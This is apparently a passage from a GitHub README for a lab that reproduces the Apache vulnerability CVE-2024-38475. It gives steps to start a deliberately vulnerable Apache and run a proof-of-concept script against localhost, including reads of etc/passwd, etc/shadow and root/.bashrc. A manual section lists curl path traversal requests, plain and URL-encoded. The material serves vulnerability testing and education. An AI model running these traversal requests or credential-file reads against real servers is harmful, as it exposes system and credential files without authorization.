 ### Step 3: Start Apache

```bash
# Start Apache with vulnerable configuration
sudo /usr/local/apache2/bin/apachectl start
```

### Step 4: Test the Vulnerability

#### Option A: Python PoC (Recommended)

```bash
# Install Python dependencies
pip3 install -r requirements.txt

# Basic vulnerability test
python3 cve-2024-38475-poc.py -u http://localhost

# Verbose output with detailed information
python3 cve-2024-38475-poc.py -u http://localhost -v

# Test specific custom files
python3 cve-2024-38475-poc.py -u http://localhost -f etc/passwd,etc/shadow,root/.bashrc

# Generate detailed report
python3 cve-2024-38475-poc.py -u http://localhost -o vulnerability_report.txt

# Run interactive examples
python3 poc-examples.py

# Run complete test suite
python3 run-complete-tests.py
```

#### Option B: Bash Script

```bash
# Make test script executable
chmod +x test-cve-2024-38475.sh

# Run automated tests
./test-cve-2024-38475.sh
```

## Manual Testing

Once Apache is running with the vulnerable configuration, you can manually test with curl:

### Path Traversal Attacks

```bash
# Access secret directory via path traversal
curl http://localhost/files/../../secret/confidential.txt

# Access admin files
curl http://localhost/files/../admin/config.php

# URL-encoded traversal
curl http://localhost/docs/..%2F..%2Fsecret/confidential.txt
```
